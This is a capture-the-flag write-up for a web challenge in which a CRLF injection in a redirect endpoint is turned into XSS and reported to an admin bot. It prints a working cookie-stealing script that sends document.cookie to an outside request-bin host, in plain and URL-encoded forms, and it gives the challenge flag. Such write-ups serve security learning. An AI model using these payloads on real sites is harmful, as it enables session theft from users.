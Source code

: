# baby-yt-repeat (web)

# Challenge description:

Welcome to Baby YouTube Repeat, the world's #2 site to repeat YouTube videos, discover the new music you'll love and share it with the world.

Hint: [twitter.com/Black2Fan/status/1311630481084026881](http://twitter.com/Black2Fan/status/1311630481084026881)

Flag format: UNR{xxxx-xxxx...}

# Flag proof:

> UNR{uda5em-xzpbvq-iyb5mm-5rpy7h-4c7zqk-4gywh3-rmcgbp-e7bak5}

# Summary:

The website asks for a YouTube link and displays it in an embedded iframe. But before arriving at the YouTube embed link, it makes a request to `/embed` which responds with a 302 Found. We also have in the page a `Report page` button. We can make a self-XSS attack with the redirection page, and then report that page to the admin, which will make a request to a server we own and we get the cookie from the flag

# Details:

Here is the main page:

![0](img/0.png)

We can input a YouTube link:

![1](img/1.png)

If we put any other kind of link we get an `Internal Server Error`. Or not really any other kind. We need a link that contains a `?v=` and then exactly 11 characters. For example, `google.com?v=12345678910` works. But apparently this was not relevant to the challenge. Let's look at the requests the page makes when opening a YouTube link:

![2](img/2.png)

It makes a request to `/embed` that responds with 302 Found and then redirects to the actual YouTube embed link. We can exploit this into a self-XSS with a CRLF injection. Let's add `%0d%0a` at the end

![3](img/3.png)

We get an `Interesting!` message. Let's try a script:

![4](img/4.png)

No script in the response. Let's add another CRLF:

![5](img/5.png)

The script tag is visible! I tried running it in Chrome but the script did not execute. This is because of the Location header in the response, we need to get rid of it. The easiest way is by adding a CRLF at the beginning of the link:

![6](img/6.png)

The Location header is gone. Let's run it in Chrome

![7](img/7.png)

Success! Now we can have remote code execution in the Report page. But first let's craft our payload to send a request to a server we can control, along with the cookies (most challenges of this type store the flag in the cookies):

```html
<script>
  window.location = "[link]?flag=" + document.cookie;
</script>
```

```bash
/embed?ytlink=%0d%0ahttps%3A%2F%2Fwww.youtube.com%2Fembed%2FdQw4w9WgXcQ%3Fautoplay%3D1%26loop%3D1%26version%3D3%26playlist%3DdQw4w9WgXcQ%0d%0a%0d%0a%3Cscript%3Ewindow.location%20%3D%20%22https%3A%2F%2Fhookb.in%2FQJD6zaGX9OT8mNzzme9Y%3Fflag%3D%22%20%2B%20document.cookie%3C%2Fscript%3E
```

And we get a request! We only have to send it to the report page. Let's see how the request looks like:

![8](img/8.png)

The endpoint is `/report-bug` and the parameter is `url`. It accepts an url on the site, but luckily the `embed` endpoint is on the site. So we just need to report the `/embed?ytlink=[payload]`. We need to encode the payload once, and then re-encode the whole url again, because we have nested urls.

```html
%2Fembed%3Fytlink%3D%250d%250ahttps%253A%252F%252Fwww.youtube.com%252Fembed%252FdQw4w9WgXcQ%253Fautoplay%253D1%2526loop%253D1%2526version%253D3%2526playlist%253DdQw4w9WgXcQ%250d%250a%250d%250a%253Cscript%253Ewindow.location%2520%253D%2520%2522https%253A%252F%252Fhookb.in%252FQJD6zaGX9OT8mNzzme9Y%253Fflag%253D%2522%2520%252B%2520document.cookie%253C%252Fscript%253E
```

And we get the flag!

![9](img/9.png)
